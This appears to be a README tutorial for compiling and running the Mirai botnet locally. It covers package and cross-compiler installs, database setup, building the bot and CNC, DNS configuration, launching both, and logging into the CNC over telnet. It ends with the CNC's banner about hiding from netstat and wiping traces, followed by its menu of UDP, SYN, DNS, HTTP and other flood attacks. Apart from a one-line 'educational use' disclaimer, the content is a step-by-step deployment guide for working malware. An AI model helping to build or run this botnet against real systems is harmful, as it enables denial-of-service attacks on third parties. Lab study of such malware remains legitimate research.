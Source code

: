 # Mirai setup

## What you need:
- Working pihole setup
- Ubuntu / Debian based linux distribution (tested on elementary os)
- Copy of mirai source code

## What we will do
The goal is to setup and run mirai in an local environment.  
But a disclaimer at the beginning: Do not use this to actually attack somebody its only for educational use.
<br><br>

## Setup tools
### First we need to install some packages  

```
sudo apt install gcc golang electric-fence mysql-server mysql-client screen dialog python3 -y
```
<br>

### The next step is to install the cross compilers
```
sudo bash ./tools/compilers.sh
```
<br>

**Now please restart your bash for those changes to take effect**
<br>


### Now we can compile it for the first time :D
```
bash ./setup.sh
bash ./build.sh debug telnet
```
<br>

### Now we need to setup the database it's easy trust me.
Simply run:
```
cat ./tools/db.sql | sudo mysql
```
<br>

Now restart mysql to make sure all changes are loaded:
```
sudo systemctl restart mysql
```
<br>

### Now we need to change some settings.  
Simply run and type in your domain and dns server:
```
python3 setup.py
```
<br>

### Now we can compile it for the second time :D and copy the prompt.txt file
```
bash ./build.sh debug telnet
```
<br>

### Now its time to setup pihole
To do this you need to login into pihole and go to Local DNS/DNS Records and type in the domain you used earlier in this tutorial and the ip of the server where the cnc is supposed to run on. **Don't forget to click on add!**
<br>

### And finlay we can run it!
To run the cnc use:
```
cd debug
screen -S mirai-cnc sudo ./cnc
```
<br>

To run a bot use:
```
cd debug
screen -S mirai-bot sudo ./mirai.dbg
```
<br>

To connect to the cnc using telnet use:
```
telnet localhost

You will be asked to login you can do that with the user we inserted earlier into the database it should look something like:

я люблю куриные наггетсы
пользователь: root
пароль: root

проверив счета... |
[+] DDOS | Succesfully hijacked connection
[+] DDOS | Masking connection from utmp+wtmp...
[+] DDOS | Hiding from netstat...
[+] DDOS | Removing all traces of LD_PRELOAD...
[+] DDOS | Wiping env libc.poison.so.1
[+] DDOS | Wiping env libc.poison.so.2
[+] DDOS | Wiping env libc.poison.so.3
[+] DDOS | Wiping env libc.poison.so.4
[+] DDOS | Setting up virtual terminal...
[!] Sharing access IS prohibited!
[!] Do NOT share your credentials!
Ready
root@botnet#
```
<br>

Finaly to see a list of attacks type:
```
root@botnet# ?
Available attack list
udp: UDP flood
dns: DNS resolver flood using the targets domain, input IP is ignored
stomp: TCP stomp flood
greip: GRE IP flood
greeth: GRE Ethernet flood
vse: Valve source engine specific flood
syn: SYN flood
ack: ACK flood
udpplain: UDP flood with less options. optimized for higher PPS
http: HTTP flood
```
